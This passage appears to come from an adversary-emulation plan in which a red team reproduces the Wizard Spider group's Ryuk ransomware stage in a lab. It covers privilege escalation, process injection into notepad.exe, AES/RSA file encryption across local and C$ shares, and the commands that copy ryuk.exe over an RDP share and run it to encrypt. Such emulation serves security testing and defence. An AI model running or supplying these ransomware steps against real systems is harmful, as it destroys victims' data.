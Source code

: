 <br>

## Step 10 - Ryuk Encryption for Impact

:microphone: `Voice Track:`

In our final step, Wizard Spider uploads and executes Ryuk.

Ryuk is uploaded using the RDP-mounted network share, and executed from CMD.

When Ryuk executes, it will first gain `SeDebugPrivilege`.

Ryuk will then and inject its own executable into a remote process,notepad.exe, via `WriteProcessMemory` and `CreateRemoteThread` WinAPI calls.

From the remote process, Ryuk will encrypt files on wizard/10.0.0.4's C:\Users\Public directory (recursive).

Next, Ryuk encrypts files on Toto/10.0.0.8 at \\C$\Users\Public (mounted on wizard as Z:).

Ryuk uses a symmetric key algorithm, AES256 to encrypt files.

Note that the symmetric key is itself encrypted with RSA2048.

*Note: early versions of our Ryuk emulation encrypted the entire filesystem; however, this proces took hours, rather than minutes, so we scaled it back due to time constraints.*

---

### :biohazard: Procedures

```bash
# Ryuk has attempted to adjust its token privileges to have the SeDebugPrivilege.[11]

# Ryuk has called CreateToolhelp32Snapshot to enumerate all running processes.[1]

# Ryuk has injected itself into remote processes to encrypt files using a combination of VirtualAlloc, WriteProcessMemory, and CreateRemoteThread.[1]

# Ryuk has used a combination of symmetric (AES) and asymmetric (RSA) encryption to encrypt files. Files have been encrypted with their own AES key and given a file extension of .RYK. Encrypted directories have had a ransom note of RyukReadMe.txt written to the directory.[1]

# Ryuk has used the C$ network share for lateral movement.[5]

# Ryuk has called GetIpNetTable in attempt to identify all mounted drives and hosts that have Address Resolution Protocol (ARP) entries.[1][5]
```

```
copy \\TSCLIENT\X\ryuk.exe C:\Users\Public\ryuk.exe
```

```bash
C:\Windows\System32\notepad.exe
```

```bash
C:\Users\Public\ryuk.exe --encrypt --process-name notepad.exe
```
